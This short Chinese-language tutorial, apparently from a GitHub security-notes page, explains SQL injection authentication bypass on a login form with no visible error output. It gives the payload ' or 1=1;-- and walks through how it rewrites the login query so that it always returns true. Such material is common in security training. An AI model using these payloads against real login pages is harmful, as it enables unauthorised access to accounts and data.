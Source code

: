 # Blind SQLi
## SQL盲注

```
' or 1=1;--
或
’ or 1=1-- -
```

sql盲注用于一些我们看不到回显的登陆页面，我们得到很少甚至没有反馈来确认注入的查询是否真的成功，这是因为错误消息已被禁用，但是无论如何SQL注入仍然有效。

当我们看到这样的页面

![3082583-20230326114105703-2118916425](https://github.com/user-attachments/assets/e5d572a7-6044-43f2-adb7-b040a6f1cd1f)

而且url中没有？时，这种实际上相当于：

```
select * from users where username='%username%' and password='%password%' LIMIT 1;
```

这时我们可以尝试绕过身份验证

在Username下输入admin，在Password下输入 ’ or 1=1 ;--

这相当于：
```
select * from users where username='admin' and password='' or 1=1 ;--' LIMIT 1;
等于
select * from users where username='admin' and password='' or 1=1;
```

因为 1=1 是一个真正的陈述，并且我们使用了 OR 运算符， 这将始终导致查询返回为 true，这满足 数据库发现有效的 Web 应用程序逻辑 用户名/密码组合，并且应允许该访问。

最终我们便绕过了身份验证并登录
